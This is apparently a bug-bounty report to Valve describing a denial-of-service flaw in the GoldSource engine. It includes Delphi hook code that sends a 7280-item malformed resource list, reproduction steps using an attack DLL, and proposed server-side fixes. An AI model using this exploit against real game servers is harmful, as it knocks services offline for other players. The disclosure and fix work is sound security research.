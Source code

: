 # Malformed client to server resource block in GoldSource causes server hang

# Introduction

Client and server in GoldSource engine have the ability to exchange files with each other. The client, as a rule, uploads decals, that is, sprays that can be painted on surfaces, and the server gives back maps, models, sounds, decals as well, and many other things. In this report, I would like to tell how attacker can cause a very long server hangup (in theory - infinite) by malformed packet.

Dear HackerOne team. I studied Valve's policy and, again, ran into some confusion. The vulnerability I want to report is hangups the server. However, the server does not close with an error, it just hangs, not responding to any commands. Freezing takes a long time, theoretically it can last indefinitely, because an attacker can send a new packet when the server "wakes up" (what will happen in a very long time). Can this issue be in the scope? If not, please let me know about it, I will close the report myself. Thanks.

# Description

When connecting to server, client sends information about resources it would like to upload to server. Under normal circumstances, the client only sends the spray, which is stored in tempdecal.wad file. However, an attacker can generate an unusually large list, resulting in a server freeze. I managed to generate a list of resources from only 7280 elements, because if I try to create a list larger, then the server-side network buffer where the packets are stored will be full and the packet will be damaged. Therefore, a list of 7280 items is optimal.

I will attach the code for generating the list of resources that causes the hang.

```delphi
procedure hkCL_SendResourceListBlock; cdecl;
const
  ResourceCount = 7280;
type
  TBlockResource = packed record
    Name: array[0..0] of AnsiChar;
    &Type: Byte;
    Index: Word;
    Size: Longint;
    Flags: Byte;
  end;
var
  I: Integer;

  MsgData: array of TBlockResource;
  Msg: sizebuf_t;
begin
  MSG_ReadLong;
  MSG_ReadLong;

  SetLength(MsgData, ResourceCount);

  Msg.buffername := 'Malformed Client to Server Resource Block';
  Msg.flags := 0;
  Msg.data := @MsgData[0];
  Msg.maxsize := 1 + 2 + Length(MsgData) * SizeOf(MsgData[0]);
  Msg.cursize := 0;

  MSG_WriteByte(Msg, Ord(clc_resourcelist));
  MSG_WriteShort(Msg, ResourceCount);

  for I := 0 to Length(MsgData) - 1 do
  begin
    MSG_WriteString(Msg, '');
    MSG_WriteByte(Msg, Ord(t_model));
    MSG_WriteShort(Msg, I);
    MSG_WriteLong(Msg, -1);
    MSG_WriteByte(Msg, 0);
  end;

  if Msg.cursize > 0 then
  begin
    Netchan_CreateFragments(False, CS^.netchan, Msg);
    Netchan_FragSend(CS^.netchan);
  end;
end;
```

This function is called instead of the original one, forming a malformed resource packet. There is no need to call the original function.

As soon as the server receives this list, it will start processing it inside the SV_RegisterResources function. This function sends the received spray from the client to other connected clients. All received resources are processed, in our case - 7280. An additional problem with the function is an error in the loop. The SV_CreateCustomizationList function, which is called each iteration, creates additional load on the loop. This function should be called only once to create a new list of resources, no more. The original function looks like this:

```cpp
void __cdecl SV_RegisterResources()
{
  int v0; // edi@1
  resource_t *i; // esi@1

  v0 = host_client;
  host_client->uploading = 0;
  for ( i = *(v0 + 19892); i != (v0 + 19764); i = i->pNext )
  {
    SV_CreateCustomizationList(v0);
    SV_Customization(v0, i, 1);
  }
  host_client = v0;
}
```

To reduce the load, it should look like this:

```cpp
void __cdecl SV_RegisterResources()
{
  int v0; // edi@1
  resource_t *i; // esi@1

  v0 = host_client;
  host_client->uploading = 0;
  
  SV_CreateCustomizationList(v0);
  for ( i = *(v0 + 19892); i != (v0 + 19764); i = i->pNext )
  {
    SV_Customization(v0, i, 1);
  }
  host_client = v0;
}
```

I also recorded a video demonstrating how the vulnerability works:

{F1006945}

# How to reproduce

As in the previous reports related to attacks against the server, I developed a library that performs the attack. The instructions for use are as follows:

1. Put the TrackerUI.dll file in the 'cstrike\bin' folder;
2. Launch Counter-Strike 1.6;
3. Run the console command 'exploit_resources' while in menu;
4. Connect to HLDS.

When reaching a certain stage of connection, the server hangs indefinitely.

# How to fix

I can offer several ways to solve this problem:

1. Add a check for the amount of resources received from the client inside the SV_ParseResourceList function. Since the client always only sends a spray, the server should exclude the client if he sent more than one resource.

2. Add a check of the received resource inside the SV_ParseResourceList function. Something like `if (resource->type != t_decal || !(Resource-> ucFlags & RES_CUSTOM) || resource->nDownloadSize <= 0)` should be sufficient. This check will prevent loading files with incorrect size and files that are not decals. If the check fails, then the client will be excluded from the server.

3. Call the SV_CreateCustomizationList function inside SV_RegisterResources only once, before executing the loop. This will optimize loop performance and reduce its stress.

Ideally, all fixes should be combined.

## Impact

An attacker can cause the server hang for an unlimited amount of time.